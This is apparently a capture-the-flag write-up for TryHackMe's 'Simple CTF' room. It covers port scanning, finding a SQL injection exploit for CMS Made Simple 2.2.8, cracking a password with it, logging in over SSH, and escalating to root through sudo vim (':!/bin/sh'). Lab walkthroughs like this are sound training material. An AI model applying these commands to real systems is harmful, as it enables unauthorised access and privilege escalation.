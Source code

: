 # simple-ctf

[Room](https://tryhackme.com/r/room/easyctf)

## How many services are running under port 1000?

A quick nmap can tell us this

```
nmap -sV -p 1-1000 10.10.217.141

Starting Nmap 7.60 ( https://nmap.org ) at 2024-10-27 05:24 GMT
Nmap scan report for ip-10-10-217-141.eu-west-1.compute.internal (10.10.217.141)
Host is up (0.00059s latency).
Not shown: 998 filtered ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
MAC Address: 02:30:43:15:E6:ED (Unknown)
Service Info: OS: Unix

```

## What is running on the higher port?

The temptation is to say that, based on the previous scan, HTTP or Apache is running on the higher port but
this will be incorrect. A new nmap scan is needed

```
nmap 10.10.217.141

Starting Nmap 7.60 ( https://nmap.org ) at 2024-10-27 05:31 GMT
Nmap scan report for ip-10-10-217-141.eu-west-1.compute.internal (10.10.217.141)
Host is up (0.00060s latency).
Not shown: 997 filtered ports
PORT     STATE SERVICE
21/tcp   open  ftp
80/tcp   open  http
2222/tcp open  EtherNetIP-1
MAC Address: 02:30:43:15:E6:ED (Unknown)
```

As it can be seen, there is something else running on port 2222. It may be the answer we are looking
for. A more detailed scan to this ports reveals that there is an SSH service running `nmap -sV -p 2222 10.10.217.141`.

## What's the CVE you're using against the application?

Don't be a fool like and think that 'the application' is the SSH service from the previous question. The question
is talking about the thing running in port 80. There is not much to see in the main page. A quick dir enumeration
with gobuster shows a new path `gobuster dir -u 10.10.217.141 -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-small.txt 
` in `/simple`.

If we go to `10.10.217.141/simple`, and look around, it's impossible not to see: `This site is powered by CMS Made Simple version 2.2.8`.
A quick search with searchsploit

```
earchsploit made simple 2.2.8
---------------------------------------------- ---------------------------------
 Exploit Title                                |  Path
---------------------------------------------- ---------------------------------
CMS Made Simple < 2.2.10 - SQL Injection      | php/webapps/46635.py
---------------------------------------------- ---------------------------------
```

Shows what we need.

## What's the password?

Download the exploit-script with `searchsploit -m 46635` and run it with
`python2.7 46635.py -u http://10.10.217.141/simple --crack -w /usr/share/wordlists/SecLists/Passwords/Common-Credentials/10k-most-common.txt`.

## Where can you login with the details obtained?

Now we have a user and a password. Where can it be of use? Reading /simple, there is a link to a login page

![](/images/thm/simple-ctf/00.png)

I couldn't find something useful here. Let's try with SSH on port 2222: `ssh -p 2222 mitch@10.10.217.141`. Success!

## What's the user flag?

`ls` on the current dir shows the user flag.

## Is there any other user in the home directory? What's its name?

`cd /home` will tell.

## What can you leverage to spawn a privileged shell?

Enter [GTFOBins](https://gtfobins.github.io/)

> GTFOBins is a curated list of Unix binaries that can be used to bypass local security restrictions in misconfigured systems.
> The project collects legitimate functions of Unix binaries that can be abused to get the f\*\*k break out restricted shells,
> escalate or maintain elevated privileges, transfer files, spawn bind and reverse shells, and facilitate the other post-exploitation tasks.

`sudo -ll` will says that the current user, `mitch` can run `vim` as root. A quick search on GTFOBins reveals that vim can be abused
to obtain a shell as [root](https://gtfobins.github.io/gtfobins/vim/). To exploit it

- Run `sudo /usr/bin/vim`
- Do `:!/bin/sh`

Now we have access to a root shell.

## What's the root flag?

Change dir to /root to see it.

# Lessons Learned

- Rediscovered [GTFOBins](https://gtfobins.github.io/).
- Use `vim` as a medium to gain a privileged shell.
- Services may not be running on their standard port!
